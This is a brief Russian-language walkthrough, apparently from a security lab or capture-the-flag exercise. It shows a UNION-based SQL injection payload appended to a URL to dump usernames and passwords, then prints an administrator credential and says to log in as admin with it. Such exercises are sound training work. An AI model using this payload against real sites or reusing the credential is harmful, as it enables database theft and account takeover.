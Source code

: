 1)В конец адресной строки добавляем следующий код: 'UNION SELECT username, password FROM users-- (названия столбцов и таблицы известны)
2)Там получим доступ к базе данных пользователей. Среди них есть и администратор:
administrator c1j09krwj1pq6g6gfbns
3)Используем эти данные , чтобы войти на сайт от имени админа.

